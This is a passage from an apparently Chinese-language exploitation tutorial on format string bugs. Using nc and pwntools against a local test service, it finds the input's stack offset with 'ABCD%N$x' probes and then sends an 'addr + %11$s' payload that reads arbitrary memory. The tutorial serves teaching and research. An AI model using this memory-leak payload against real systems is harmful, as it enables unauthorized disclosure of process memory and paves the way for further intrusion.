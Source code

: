 理解了上述的知识点后，我们可以输入想leak数据的内存地址，然后爆破出我们输入数据的位置，不就能leak相应地址的内存的数据了么

比如我输入 `ABCD%2$x` ，如果输出 `ABCD` 十六进制值，则说明第二个参数为我们输入的数据的起始位置.

```
$ nc 127.0.0.1 10001
ABCD%2$x  
ABCD400

$ nc 127.0.0.1 10001
ABCD%3$x  
ABCD174

$ nc 127.0.0.1 10001
ABCD%4$x  
ABCD174

....

$ nc 127.0.0.1 10001
ABCD%11$x  
ABCD44434241
```

这样我们就能得到payload: `addr + %11$s` , 返回值为 `addr` 指向的内存的字符串，直到 `\0` 为止

这里我们可以进行测试下(我们现在是处于研究状态，虽然假想没bin，但实际我们是有的，所以可以进行测试来证明我们的结论)

```
$ objdum -d fmt_test -M intel

....

080485c4 <_fini>:  
 80485c4:    53                      push   ebx
 80485c5:    83 ec 08                sub    esp,0x8
 80485c8:    e8 33 fe ff ff          call   8048400 <__x86.get_pc_thunk.bx>
 80485cd:    81 c3 33 1a 00 00       add    ebx,0x1a33
 80485d3:    83 c4 08                add    esp,0x8
 80485d6:    5b                      pop    ebx
 80485d7:    c3                      ret    

$ py                          
>>> from pwn import *

>>> p = remote("127.0.0.1",10001)
[x] Opening connection to 127.0.0.1 on port 10001
[x] Opening connection to 127.0.0.1 on port 10001: Trying 127.0.0.1
[+] Opening connection to 127.0.0.1 on port 10001: Done

>>> p.send(p32(0x80485c4)+"%11$s")

>>> p.recv()
'\xc4\x85\x04\x08S\x83\xec\x08\xe83\xfe\xff\xff\x81\xc33\x1a'

>>>
```
